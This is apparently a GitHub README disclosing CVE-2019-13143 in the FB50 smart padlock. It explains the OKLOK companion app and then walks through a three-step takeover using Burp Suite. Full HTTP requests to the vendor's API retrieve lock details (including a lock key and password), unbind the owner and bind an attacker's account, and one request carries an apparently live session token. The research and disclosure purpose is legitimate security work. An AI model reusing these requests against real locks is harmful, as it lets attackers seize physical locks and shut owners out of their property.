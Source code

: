 # EXPOSING THE VULNURABILITES OF THE FB50 SMART LOCK

## CVE Number

CVE-2019-13143

## Details
* The FB50 smart lock
     * The FB50 smart lock is manufactured by Shenzhen Dragon Brother Technology Co. Ltd.
     * The look is sold under multiple brands on many ecommerse sites across the web.
     * It has an estimated 15k+ users.
* Product URLs
     * https://www.chinasmartlocks.com/en/product/fb50-smart-padlock.html
     * https://www.sz-mica.com/fb50.html

## How the lock works

* The FB50 pairs to a phone via Bluetooth, and requires the OKLOK app to function. The app requires the user to create an account before further functionality is available. It also facilitates configuring the fingerprint, and unlocking from a range via Bluetooth. 
    
    * Thus the 2 methods of unlocking it are:
        * By scanning the registered fingerprint.
        * By using the companion Android app when in it’s vicinity. 

## Our objective

Our objective in this project was to try to open or pick the lock and this could be done in 2 ways
* The BLE(Bluetooth Low Energy) method
* The Android app method.
Here, we have decided to focus on the Android app method.
      

## Using Burpsuite

* Before we start performing the exploit, we require the servises of Burpsuite.
* Burp Suite is an integrated platform for performing security testing of web applications that is usually used to pentest web applications by industry proffesionals
* It operates as a web proxy server, and sits as a man-in-the-middle between the browser and destination web servers. This allows the interception, inspection and modification of the raw traffic passing in both directions
* The free community version can be downloaded from [here](https://portswigger.net/burp/communitydownload)


## The exploit in brief

The entire exploit is a 3 step process consisting of authenticated HTTP requests sent via Burpsuite:
    1. Using the lock’s MAC (obtained via a simple Bluetooth scan in the vicinity), get the barcode,user ID and lock ID
    2. Using the lock ID and user ID, unbind the user from the lock
    3. Provide a new name, attacker’s user ID and the MAC to bind the attacker to the lock

## Performing the exploit

We start by connecting the Android device through our proxy made using Burpsuite.
As we turn the “Intercept” option on, all requests from the Android device are intercepted by Burpsuite.
We intercept the different requests being sent from the app which we will later modify.

### Step 1

* We proceed to use the “Repeater” feature of Burpsuite to send requests directly to the FB50 smart lock
* For example, we send the request 

      POST /oklock/lock/getDeviceInfo HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 56
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
    
 * To which we get the follwing response
                        
       HTTP/1.1 200 
       Server: nginx/1.13.3
       Date: Sat, 21 Sep 2019 05:29:38 GMT
       Content-Type: application/json
       Content-Length: 409
       Connection: close

       {"result":{"account":"<USER EMAILID>","alarm":0,"barcode":"<BARCODE>","chipType":"1","createAt":"   <DATE&TIME","deviceId":"","electricity":"91","firmwareVersion":"2.3","gsmVersion":"","id":<LOCKID>,"isLock":0,"lockKey":"40,1,61,18,20,24,18,8,52,57,36,96,91,1,87,20","lockPwd":"000000","mac":"<MAC ADDRESS>","name":"LOCK NAME","radioName":"BlueFPL","type":0,"userId":<USER ID>},"status":"2000"}









### Step 2

*And now that we have all necessary information, we shall proceed to unbind the lock from the victim’s device using the victim’s USER ID.
      
      POST /oklock/lock/unbind HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 113
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"lockId":"<LOCK ID>","userId":"<USER ID>"}

### Step 3

*And now we proceed to bind it to the attacker’s device using the following command.

    POST /oklock/lock/bind HTTP/1.1
    User-Agent: nokelockTool/1.4.8(Android 5.0.2 ; LENOVO/Lenovo A6010)
    clientType: Android 
    token: 56dce1fc3f4f49d98c74246e1b5a7ce9
    language: US
    appVersion: 1.4.8
    Content-Type: application/json;charset=UTF-8
    Content-Length: 56
    Host: api.oklock.com.cn
    Connection: close
    Accept-Encoding: gzip, deflate

    {"name":"<LOCK NAME>","userId":<ATTACKER USERID>,"mac":"<LOCK MACID>"}





## Conclusion

   * Thus, we have succesfully transfered control of the FB50 smart lock from the victiom’s app to the attacker’s app.
   * The severity of this issue lies in the fact that the original owner completely loses access to their lock. They can’t even “rebind” to get back, since the current owner (the attacker) needs to authorize that.  

## References

   * FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)
   * https://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure/
   * https://icyphox.sh/blog/fb50/
